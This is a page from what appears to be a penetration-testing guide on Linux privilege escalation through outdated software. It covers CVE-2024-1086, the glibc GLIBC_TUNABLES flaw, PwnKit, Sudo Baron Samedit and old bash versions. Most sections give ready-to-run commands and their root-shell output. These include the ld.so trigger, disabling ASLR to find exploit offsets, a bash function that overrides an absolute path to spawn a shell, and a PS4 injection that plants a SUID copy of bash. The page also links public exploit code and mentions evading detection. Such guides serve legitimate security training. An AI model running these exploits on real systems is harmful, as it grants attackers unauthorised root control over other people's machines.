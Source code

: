```yaml
---
description: >-
  Some common services run with elevated privileges, and can be dangerous if set
  up incorrectly or are outdated
---
```


# Outdated Versions

## Default SUID binaries

There are some common programs that require the SUID bit to work, like sudo. There is a lot of research into finding vulnerabilities in these programs specifically for Privilege Escalation. You can look up the version of a program with a term like "exploit" or "CVE" to find known exploits for it. [GitHub ](https://github.com/)and [ExploitDB](https://www.exploit-db.com/) are is great resources where Proof of Concepts are often shared, so make sure to search there if you know the program is vulnerable.&#x20;

Here are a few easily exploitable vulnerabilities in common outdated programs:

### Kernel v5.14-v6.6 (CVE-2024-1086)

{% embed url="https://github.com/Notselwyn/CVE-2024-1086" %}
Official exploit for CVE-2024-1086
{% endembed %}

One of the greatest exploits does not rely on specific SUID binaries, but, exploits the Linux kernel itself. This CVE-2024-1086 affects a wide range of versions and is very reliable at giving you a quick root shell. If you're into learning all the inner details of this exploit, [read the full blog post](https://pwning.tech/nftables/). It affects the following versions taken from their README (check with `uname -r`):

> The exploit affects versions from (including) **v5.14** to (including) **v6.6**, excluding **patched branches v5.15.149>, v6.1.76>, v6.6.15>**. The patch for these versions were released in feb 2024. The underlying vulnerability affects all versions (excluding patched stable branches) from v3.15 to v6.8-rc1.
>
> **Caveats:**
>
> * The exploit does not work v6.4> kernels with kconfig `CONFIG_INIT_ON_ALLOC_DEFAULT_ON=y` (including Ubuntu v6.5)
> * The exploits requires user namespaces (kconfig `CONFIG_USER_NS=y`), that those user namespaces are unprivileged (sh command `sysctl kernel.unprivileged_userns_clone` = 1), and that nf\_tables is enabled (kconfig `CONFIG_NF_TABLES=y`). By default, these are all enabled on Debian, Ubuntu, and KernelCTF. Other distro's have not been tested, but may work as well.
> * The exploit may be unstable on systems with a lot of network activity
>   * Systems with WiFi adapter, when surrounded by high-usage WiFi networks, will be very unstable.
>   * On test devices, please turn off WiFi adapters through BIOS.

Exploiting a target is as simple as compiling the repository with `make`, and then running the created `./exploit` binary on a target to receive an interactive root shell. Even Fileless execution for constrained environments or to avoid detection is supported, check out the repository for more details on this.&#x20;

### glibc `ld.so` < 2.37-r7 (CVE-2023-4911)

A vulnerability in the glibc loader was found, which is used in almost all SUID binaries. It can be triggered via environment variables, specifically `GLIBC_TUNABLES`. A simple proof-of-concept was made to test if the current version is vulnerable, which uses any SUID binary like `su`:

{% code overflow="wrap" %}
```bash
env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
```
{% endcode %}

{% code title="Vulnerable output" %}
```
Segmentation fault
```
{% endcode %}

{% code title="Patched output" %}
```
Usage:
 su [options] [-] [<user> [<argument>...]]
...
```
{% endcode %}

If you find that it is vulnerable, you can exploit it using one of the many scripts that were made. A useful one is the one made by [@bl4sty](https://twitter.com/bl4sty) which has 2 modes depending on **ASLR**:

* **Disabled**: "Search offset" which will try offsets 128-1024 until a dummy payload triggers
* **Enabled**: "Exploit" which uses a static offset to exploit it in a real environment

{% embed url="https://haxx.in/files/gnu-acme.py" %}
Proof of Concept with offset finder to get a root shell
{% endembed %}

Finding this offset is important because not all environments have the same one. A few common ones are included in the `TARGETS` variable in the Python script above. For consistent success on arbitrary systems, you should first _recreate the target environment_ and disable ASLR:

<pre class="language-shell-session" data-title="Recreated environment"><code class="lang-shell-session"><strong>$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
</strong><strong>$ python3 gnu-acme.py
</strong>...
found working offset for ld.so '4f536ac1cd2e8806aed8556ea7795c47404de8a9' -> 561
found working offset for ld.so '4f536ac1cd2e8806aed8556ea7795c47404de8a9' -> 562
found working offset for ld.so '4f536ac1cd2e8806aed8556ea7795c47404de8a9' -> 563
</code></pre>

Then use any of these working offsets with ASLR enabled to get a shell in a few minutes:

{% code title="gnu-acme.py" %}
```diff
TARGETS = {
    "69c048078b6c51fa8744f3d7cff3b0d9369ffd53": 561,
...
    "956d98a11b839e3392fa1b367b1e3fdfc3e662f6": 322,
+   "4f536ac1cd2e8806aed8556ea7795c47404de8a9": 561,
}
```
{% endcode %}

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ python3 gnu-acme.py
</strong>...
[i] using stack addr 0x7ffe1010100c
...................................................................................
** ohh... looks like we got a shell? **
<strong># id
</strong>uid=0(root) gid=1001(user) groups=1001(user)
</code></pre>

### PwnKit (CVE-2021-4034)

Polkit's `pkexec` program is another SUID binary. It had a vulnerability with the PATH variable allowing you to load an arbitrary shared library, and execute any code you want. For all the technical details see [this writeup](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034).

A proof-of-concept was made in C that you need to compile and run on the target:

{% embed url="https://github.com/arthepsy/CVE-2021-4034" %}
An exploit of PwnKit written in C
{% endembed %}

If compilers like `gcc` are not available on the target, you could try the Python version:

{% embed url="https://github.com/joeammond/CVE-2021-4034" %}
An exploit of PwnKit written in Python
{% endembed %}

### Sudo < 1.9.5p2 (CVE-2021-3156)

The `sudoedit` program has a Heap-Based Buffer Overflow vulnerability. For all the technical details see [this writeup](https://datafarm-cybersecurity.medium.com/exploit-writeup-for-cve-2021-3156-sudo-baron-samedit-7a9a4282cb31).&#x20;

A simple proof-of-concept script was quickly made in C that you likely need to compile on the target:

{% embed url="https://github.com/CptGibbon/CVE-2021-3156" %}
An exploit of Sudo Baron Samedit written in C
{% endembed %}

If compilers like `gcc` are not available on the target, you could try the Python version:

{% embed url="https://github.com/worawit/CVE-2021-3156" %}
A few versions of the Sudo Baron Samedit exploit written in Python
{% endembed %}

## Old Bash Tricks

Bash is by far the most common shell, and has had a few updates to change certain features. In previous versions of bash, there were some tricks to exploit SUID binaries with functions and environment variables. To check the version of bash use:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ bash --version
</strong>GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)
</code></pre>

### Bash < 4.2-048 (absolute path overwrite)

In these older bash versions, it was possible to define a function with the name of a full path to a program. This way, if you would specify the full path to that program, it would instead execute the function you defined with the same name. This makes it possible to overwrite absolute paths like `/usr/sbin/service` ran by SUID binaries, by defining a malicious function with the same name:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ function /usr/sbin/service { /bin/bash -p; }  # Define function to get a shell
</strong><strong>$ export -f /usr/sbin/service  # Export function
</strong><strong>$ ./vulnerable
</strong># id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
</code></pre>

### Bash < 4.4 (PS4 variable)

When bash is in debug mode, it has the `PS4` variable which provides a custom prompt when a command is executed by the program. But the variable can run arbitrary commands with the `$()` command substitution syntax. You can set bash in debug mode with `SHELLOPTS=xtrace`, and then just set the `PS4` variable. Getting a direct shell with `/bin/bash -p` has some weird output, so I recommend just copying /bin/bash to another location and setting the SUID bit on it, so you can later run it for your root shell:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/bash; chmod +xs /tmp/bash)' ./vulnerable
</strong><strong>$ /tmp/bash -p
</strong># id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
</code></pre>
